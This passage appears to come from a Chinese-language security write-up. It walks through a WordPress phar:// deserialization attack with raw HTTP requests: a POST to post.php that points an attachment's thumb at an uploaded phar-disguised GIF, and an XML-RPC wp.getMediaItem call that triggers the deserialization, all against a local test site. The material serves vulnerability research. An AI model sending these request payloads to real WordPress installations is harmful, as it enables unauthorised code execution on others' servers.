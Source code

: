 _wpnonce=1da6c638f9&_wp_http_referer=%2Fwp-
admin%2Fpost.php%3Fpost%3D16%26action%3Dedit&action=editpost&post_type=attachment&post_ID=11&file=Z:\Z
同样可以通过发送如下数据包来设置$imagedata['thumb']的值：

POST /wordpress/wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 184
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/wordpress/wp-admin/post.php?post=10&action=edit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_5bd7a9c61cda6e66fc921a05bc80ee93=author%7C1535082294%7C1OVF85dkOeM7IAkQQoYcEkOCtV0DWTIrr32TZETYqQb%7Cb16569744dd9059a1fafaad1c21cfdbf90fc67aed30e322c9f570b145c3ec516; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93=author%7C1535082294%7C1OVF85dkOeM7IAkQQoYcEkOCtV0DWTIrr32TZETYqQb%7C5c9f11cf65b9a38d65629b40421361a2ef77abe24743de30c984cf69a967e503; wp-settings-time-2=1534912264; XDEBUG_SESSION=PHPSTORM
Connection: close

_wpnonce=1da6c638f9&_wp_http_referer=%2Fwp-
admin%2Fpost.php%3Fpost%3D16%26action%3Dedit&action=editattachment&post_ID=11&thumb=phar://./wp-content/uploads/2018/08/phar-1.gif/blah.txt
_wpnonce可在修改页面中获取。



最后通过XMLRPC调用"wp.getMediaItem"这个方法来调用wp_get_attachment_thumb_file()函数来触发反序列化。xml调用数据包如下：

POST /wordpress/xmlrpc.php HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml
Cookie: XDEBUG_SESSION=PHPSTORM
Content-Length: 529
Connection: close

<?xml version="1.0" encoding="utf-8"?>

<methodCall> 
  <methodName>wp.getMediaItem</methodName>  
  <params> 
    <param> 
      <value> 
        <string>1</string> 
      </value> 
    </param>  
    <param> 
      <value> 
        <string>author</string> 
      </value> 
    </param>  
    <param> 
      <value> 
        <string>you_password</string>
      </value> 
    </param>  
    <param> 
      <value> 
        <int>11</int> 
      </value> 
    </param> 
  </params> 
</methodCall>
